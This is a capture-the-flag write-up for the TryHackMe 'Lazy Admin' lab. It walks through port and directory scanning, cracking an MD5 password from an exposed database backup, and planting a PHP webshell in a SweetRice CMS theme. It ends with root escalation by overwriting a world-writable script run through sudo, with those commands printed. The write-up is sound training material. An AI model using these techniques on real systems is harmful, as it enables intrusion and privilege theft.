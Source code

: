 # TryHackMe-LazyAdmin-ctf-writeup

Writeup for Lazy Admin CTF available on https://www.tryhackme.com/ (https://www.tryhackme.com/room/lazyadmin)

Aliases:

VICTIM_IP = IP of deployed machine
MY_IP = My IP on TryHackMe VPN

## Information gathering

Nmap syn scan on host:

`nmap -A -Ss VICTIM_IP -oN nmap_syn_def`

Significant results:

PORT 22 -> OPEN, ssh
PORT 80 -> 80 Apache httpd 2.4.18 (Ubuntu)

Visiting VICTIM_IP:80 you can see the classic welcome page, no hints hidden in sourcecode

Gobuster scan on VICTIM_IP/ using dirb's wordlist "common.txt"

`gobuster dir -x php -u VICTIM_IP -w /usr/share/dirb/wordlists/common.txt`

Significant results:

/content

Visiting VICTIM_IP/content we find they are using a CMS called SweetRice, and states: 

"If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website."

Gobuster scan on VICTIM_IP:80 starting from /content

`gobuster dir -x php -u VICTIM_IP -w /usr/share/dirb/wordlists/common.txt`

Significant results:

/_themes
/as
/attachment
/images              
/inc                  
/index.php        
/index.php             
/js  

/as turns out to be a login page, wich I tried to bruteforce using hydra (with username "admin") with no success.

In /inc we find a mysql backup (http://VICTIM_IP/content/inc/mysql_backup/), download and open its content.

There is an INSERT sql statement wich declares a username (manager) and his password md5, you can just crack it on crackstation.

## Gaining first access

Using the credentials from the previous step you can manage to log in the cms. In the dashboard tab we see the button that "opens" the site.
Further looking, you can see a "theme" tab wich allow you modify the template of pages, including the home page.

At this point you can just add a php webshell in the home template and open the site.

If you're using kali you can a find a php webshell in /usr/share/webshells/ or you can just find one on the web, it is usually a php script wich only requires you to insert you ip and a port you'll be listening on.

Once you've inserted the webshell in the template start a nc listener on the port you indicated, start the site and visit /VICTIM_IP/content, you have gained a shell.

Using "find" you can easily locate the user.txt file, for root.txt we probably need to gain root privileges.

##Privilege escalation

Checking permissions on victims host:

`sudo -l`

Result: 

(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

It means we can run that script with sudo permission without being asked for a password. 

`cat /home/itguy/backup.pl`

Ouput:

system("sh", "/etc/copy.sh");

So the script is just calling a shell script

`cat /etc/copy.sh`

It's very useful to check this script permissions: 

`ls -la /etc/copy.sh`

Ouput:

-rw-r--rwx 1 root root 34 Jun 26 16:53 /etc/copy.sh

It means you can modify the script and execute is as sudo. From this point you can basically use this as you want, what I've done is:

`echo 'find / -name root.txt 2>x/dev/null' > /etc/copy.sh`

`sudo perl /home/itguy/backup.pl`

output:

/root/root.txt

`echo 'cat /root/root.txt' > copy.sh`

`sudo perl /home/itguy/backup.pl`

Output:

<root flag>
  
